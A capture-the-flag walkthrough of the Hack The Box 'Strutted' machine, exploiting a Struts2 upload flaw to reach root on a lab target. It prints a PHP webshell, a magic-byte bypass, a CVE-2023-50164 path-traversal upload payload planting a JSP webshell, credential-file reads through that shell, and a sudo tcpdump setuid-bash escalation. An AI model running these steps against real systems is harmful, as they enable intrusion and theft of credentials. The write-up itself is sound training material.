 # Strutted HTB (Linux)

## Initial Setup

* Added the target IP and domain to `/etc/hosts` for local DNS resolution.

## Web Application Reconnaissance

* Navigated to the web page. Noted an **Upload File** functionality immediately.
* Checked DevTools (Inspect Element) — no obvious client-side filters or JavaScript validation interfering with uploads.
* The only other notable functionality was a **Download** button. Downloading the file provided a zip archive containing the Strutted application source code.
* Within the source:

  * Noticed a `tomcat-users.xml` file containing an admin username and password. Logged for potential use later.

## File Upload Testing

* Attempted to upload a basic PHP webshell:

  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```

  * Upload rejected: *"not a jpg, jpeg, gif"*

* Renamed file to `shell.php.jpg`

  * Upload rejected: *"not an actual image"*
  * This suggested magic byte validation.

### Bypassing Magic Byte Checks

* Created a dummy image:

  ```bash
  convert -size 100x100 xc:white image.jpg
  cat image.jpg shell.php.jpg > sh.php.jpg
  ```

  * Upload succeeded, received a shareable link.
  * Share link was dead, but inspecting the page source revealed the image upload path:

  ```
  http://strutted.htb/uploads/20250708_012649/sh.php.jpg
  ```

* Appending `?cmd=id` to this URL did not trigger command execution, confirming the server doesn’t interpret `.php.jpg` as executable.

## Understanding the Application Stack

* Re-examined the downloaded source and `pom.xml`

* Noted:

  ```xml
  <struts2.version>6.3.0.1</struts2.version>
  ```

* Realized this is a **JSP-based Java Struts2 application** — which explained why PHP payloads failed.

## Vulnerability Research

* Identified **CVE-2023-50164**:

  * Vulnerability in Struts2 FileUploadInterceptor allowing **path traversal via manipulated multipart parameters**, potentially leading to RCE if a file can be written to a web-accessible directory.
  * Relevant resource:

    * [https://nvd.nist.gov/vuln/detail/CVE-2023-50164](https://nvd.nist.gov/vuln/detail/CVE-2023-50164)

## Exploitation via CVE-2023-50164

* Prepared a JSP webshell using:

  [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp)

* Within BurpSuite Repeater:

  * Uploaded an image to satisfy magic byte checks.
  * Immediately after image bytes, appended the JSP webshell.
  * Crafted multipart parameter `top.uploadFileName` to perform directory traversal:

  ```
  Content-Disposition: form-data; name="top.uploadFileName"

  ../../cmd.jsp
  ```

* Closed multipart form data.

![alt text](https://ibb.co/gZxXbskG)

![alt text](https://ibb.co/TqvDYXzk)

* Server response showed upload succeeded, displaying path:

  ```
  uploads/20250708_023045/../../cmd.jsp
  ```

![alt text](https://ibb.co/S4vcjF6N)


* Confirmed the webshell was accessible and operational:

  ```
  http://strutted.htb/uploads/20250708_023045/../../cmd.jsp
  ```

## Enumeration through Webshell

* Ran:

  ```
  cat /etc/passwd
  ```

* Discovered a user:

  ```
  james:x:1000:1000:Network Administrator:/home/james:/bin/bash
  ```

* Attempted to locate any sensitive configuration files:

  * Noted earlier from the downloaded source the existence of `/etc/tomcat9/tomcat-users.xml`
  * Unable to `cat` directly via shell (possible restrictions), so used `curl` through the webshell:

  ```
  curl http://strutted.htb/cmd.jsp?cmd=cat+%2Fetc%2Ftomcat9%2Ftomcat-users.xml --output tomcat-users.xml
  ```

* Retrieved the file, revealed admin credentials.

## SSH Access

* Using the discovered password for **user james**, successfully connected via SSH:

  ```
  ssh james@10.10.11.59
  ```

## Privilege Escalation

* Checked sudo privileges:

  ```
  sudo -l
  ```

* Output:

  ```
  User james may run the following commands on localhost:
      (ALL) NOPASSWD: /usr/sbin/tcpdump
  ```

### Exploiting `tcpdump` via GTFOBins

* Referenced GTFOBins technique:
  [https://gtfobins.github.io/gtfobins/tcpdump/#sudo](https://gtfobins.github.io/gtfobins/tcpdump/#sudo)

* Executed:

  ```bash
  COMMAND='cp /bin/bash /tmp/bash && chmod +s /tmp/bash'
  TF=$(mktemp)
  echo "$COMMAND" > $TF
  chmod +x $TF
  sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
  /tmp/bash -p
  ```

* Spawned a root shell via setuid `bash`.

## Root Flag

* Retrieved the root flag:

  ```
  cat /root/root.txt
  ```

## Summary

| Step                        | Action                                                  |
| :-------------------------- | :------------------------------------------------------ |
| Initial recon               | Found upload functionality and downloaded application   |
| Application stack discovery | Identified Struts2 + JSP usage and vulnerable version   |
| Exploitation                | CVE-2023-50164 — file upload path traversal to webshell |
| Lateral movement            | Retrieved tomcat-users.xml via webshell curl            |
| Privilege escalation        | SSH access as **james** → sudo `tcpdump` → root shell   |
| Root flag retrieval         | Read `/root/root.txt`                                   |

